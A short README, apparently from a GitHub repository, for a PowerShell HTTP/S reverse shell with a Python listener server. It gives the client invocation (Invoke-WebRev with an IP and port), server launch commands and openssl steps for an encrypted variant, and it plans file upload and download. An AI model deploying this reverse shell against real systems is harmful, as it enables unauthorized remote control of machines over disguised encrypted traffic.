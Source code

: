 # Powershell HTTP/S Reverse Shell

## clientHTTP_shell.ps1 - client

On your client:
    `Invoke-WebRev -ip IP -port PORT`
    `Invoke-WebRev -ssl -ip IP -port PORT`

##  server.py - server

![Alt text](images/revshell.png "Server")

On your server:
    `python3 server.py IP PORT`
    
    For SSL Reverse Shell:
    `openssl genrsa -out private.pem 2048`
    `openssl req -new -x509 -key private.pem -out cacert.pem -days 9999`
    `python3 server.py --ssl IP PORT`


# Future features
    - Upload function
    - Download function
